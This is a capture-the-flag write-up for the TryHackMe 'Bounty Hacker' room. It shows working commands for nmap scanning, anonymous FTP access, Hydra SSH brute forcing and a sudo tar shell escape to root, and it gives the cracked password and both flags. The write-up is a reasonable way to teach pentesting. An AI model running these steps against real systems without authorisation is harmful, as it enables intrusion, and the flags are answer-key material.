 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root 
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Ports Discovered:**

- `21/tcp` – FTP (vsftpd 3.0.3, anonymous login allowed)  
- `22/tcp` – SSH (OpenSSH 7.2.2)  
- `80/tcp` – HTTP (Apache httpd 2.4.18)

---

## 📂 FTP Access

```bash
ftp <target-ip>
Name: anonymous
```

### 📁 Files Discovered

```bash
ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt
```

#### 📄 task.txt

```
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin
```

🔑 **Username hint:** `lin`

#### 📄 locks.txt

Custom password list found which are likely reused credentials.

---

## 🔓 Gaining Access

### 🚀 Brute Force with Hydra

```bash
hydra -l lin -P locks.txt ssh://<target-ip>
```

✅ **Password Found:** `RedDr4gonSynd1cat3`

---

## 🔐 SSH Access

```bash
ssh lin@<target-ip>
```

---

## 🏁 User Flag

```bash
cat ~/Desktop/user.txt
```

**Flag:**  
```
THM{CR1M3_SyNd1C4T3}
```

---

## 🪜 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```text
User lin may run the following command as root:
(root) /bin/tar
```

### 📦 Exploiting tar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
whoami
root
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Flag:**  
```
THM{80UN7Y_h4cK3r}
```

---

## 💡 Reflections

- Anonymous FTP access is often overlooked but powerful  
- Password reuse is still a major weakness  
- Always run `sudo -l` — it's a goldmine  
- Even basic tools like `tar` can grant root when misconfigured

---

## 🧠 Pro Tip

> *"When in doubt, poke around, read everything, and always try the simple stuff first."*

---

## 📁 Summary of Key Files

| File        | Description                            |
|-------------|----------------------------------------|
| `locks.txt` | Password list used in brute-force      |
| `task.txt`  | Initial objective + username clue      |
| `user.txt`  | First flag found on user's desktop     |
| `root.txt`  | Root flag retrieved after escalation   |
